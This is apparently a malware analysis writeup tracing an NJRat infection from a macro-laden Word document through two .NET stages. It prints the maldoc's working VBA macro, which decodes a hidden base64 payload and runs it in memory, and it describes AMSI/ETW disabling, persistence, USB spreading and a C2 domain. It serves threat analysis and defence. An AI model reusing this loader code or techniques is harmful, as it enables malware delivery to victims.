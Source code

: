 ```yaml
---
tags: RATs
---
```

## NJRat Injection From Malicious Document

Another RAT variant, NJRat is typically attributed to ECRime actors, it is supposedly popular with actors in the Middle East. It's primary infection vectors are phishing attacks and drive-by downloads, and like many other RATs, it has the capability to log keystrokes, access the victim's camera, steal credentials stored in browsers, open a reverse shell, upload/download files, view the victim's desktop, perform process, file, and registry manipulations, etc...

This sample was taken from the following [tweet](https://twitter.com/DmitriyMelikov/status/1696050783790207060)

[-] Maldoc [VirusTotal](https://www.virustotal.com/gui/file/12237938501141149337015c546b5e02acf3b98c1c26a84b5b4befd97d0f66d0/detection)

[-] PE Payload [VirusTotal](https://www.virustotal.com/gui/file/66702e21faa38c24f49a33112d2036d8f3b6bcfd686db47299a4dc44dedf13d8/detection)

## Maldoc

Like most other maldocs which leverage macros, the document lures the user into enabling content.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/da75e6b8-26e0-4d18-ba83-fd86a19bcdd9)

We can interrogate this macro by using OLE tools to view it.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c521ee37-e76b-4b24-b3f7-7bf4dd102d94)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/66db0700-4e12-4eba-94e4-6621bb1b38d7)

```
Attribute VB_Name = "Module1"
Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal six As Long, ByVal five As Long, ByVal four As LongPtr, three As Long, ByVal two As Long, one As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal seven As Long, ByVal eight As Long, ByVal nine As Long, ByVal ten As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal eleven As LongPtr, ByVal twelve As LongPtr, ByVal thirteen As Long) As LongPtr
Public Function db(base64) As Byte()
  Dim DM As Variant, EL As Variant
  Set DM = CreateObject("Microsoft.XMLDOM")
  Set EL = DM.createElement("tmp")
  EL.DataType = "bin.base64"
  EL.Text = base64
  db = EL.NodeTypedValue
End Function

Sub autoopen()
    Dim var2() As Byte
    Dim var4 As LongPtr
    Variables = ActiveDocument.InlineShapes(1).AlternativeText
    var2 = db(Variables)
    var6 = VirtualAlloc(0, UBound(var2), &H1000, &H40)
    var4 = RtlMoveMemory(var6, VarPtr(var2(0)), UBound(var2))
    var4 = CreateThread(0, 0, var6, 0, 0, 0)

   ActiveDocument.Range.Font.Hidden = False
End Sub
```

Essentially, a Base64 string is being taken from ActiveDocument.InlineShapes(1).AlternativeText and decoded, we can assess that the contents are then executed in memory using CreateThread, VirtualAlloc and RtlMoveMemory API calls.

The base64 string is hidden inside a text box on the first page of the document, utilising the Alternative Text field

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/4c944195-0f30-4bdb-bf49-6967865241bd)

I found the full string by querying the 'Data' stream, using OLE tools.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/fe007626-91e1-4cc1-b51f-5667a6ddfdf0)

_Base64 Snippet:_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/53b37b49-c1de-4051-83c8-fae9faddce0c)


Once this code is injected and executed, it drops a PE in the location 'C:\Users\george\AppData\Roaming\netflex\netflex.exe', as well as employing some persistence mechanisms, such as a vbs script in the startup folder and a registry run key.

## 1st Executable 

Taking a look at the dropped 'netflex.exe' in DNSpy, there are a few things to note.

Firstly, the binary does a basic check to decide if the host is in a virtualised environment by querying Win32_CacheMemory

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/6882b2c3-d2b7-4700-b20d-9296049a7200)

If there is a value for Win32_CacheMemory, the program assumes the host is not a virtual machine and will execute the next function.

The next function involves breaking/disabling AMSI and ETW, likely through the use of SharpUnhooker or a similar tool.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/48e550fc-4b5e-4fcf-9e93-438232dbdc9d)




![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/af3e374a-7c42-4e6f-8775-aae8ad36c471)

The first line derives an AES key by getting the SHA 256 value of Settings.aes_key and taking the first 32 bytes.

The second line takes the contents of baseData, converts it from base64, decompresses the data with the Decompress function, decrypts the data and finally base64 decodes the unencrypted data.

_Decompress Function_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/a0e449f9-0ef4-4d75-b12f-19acbe97c7dd)

The key point here is that the first 4 bytes of baseData declare the length of the data and are not needed for decompression.

The Settings class is compromised of 3 key components, baseData, aes_key and aes_iv.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/1f4f0997-0af7-488a-bfde-bdd9bfda3e2d)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/6f646fb8-e4a7-4d4b-b7db-b210541829ea)

We now have everything needed to decrypt the base64 string.

1) Copy and paste the baseData string, convert it from base64.
   
2) Remove the first 4 bytes
   
3) Decompress with Gunzip
   
4) AES decrypt with base64 key "78e3e7cc513ff8ae00a177366efa4060" _(First 32 bytes of the SHA 256 value of'Q4NP7JPHRA5AJB28')_
   
5) Decode from base64

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/aa810be8-fab3-4223-bf4a-7d1de792bfdd)

This leaves us with another .NET executable.

## 2nd Executable

Within this executable, we can see the C2 domain and installation directory being declared: netflex.duckdns[.]org:2255

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/6f7fd25f-61d4-4658-bfac-a22c4f894da3)

There is also the capability for replication across removable media drives.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/381c8cc6-fca3-42da-ad73-5d1b4f3e790f)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/8eb4112f-fa44-46a2-924a-711cf073aca0)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b47f825d-f9e8-4a07-b3be-14859f79be54)

And previously noted registry run key additions.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d6b7e8d2-0be3-448d-9eb2-f1bb0ec4b51c)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d7224c19-bd8c-4827-a730-1183d14bfcc3)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/f4bf9291-5090-486c-bffd-33e51d3adcc3)

As well as the binary being copied to the Startup directory.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/27e7f7c9-0c18-4648-9119-7acc0357a85d)

















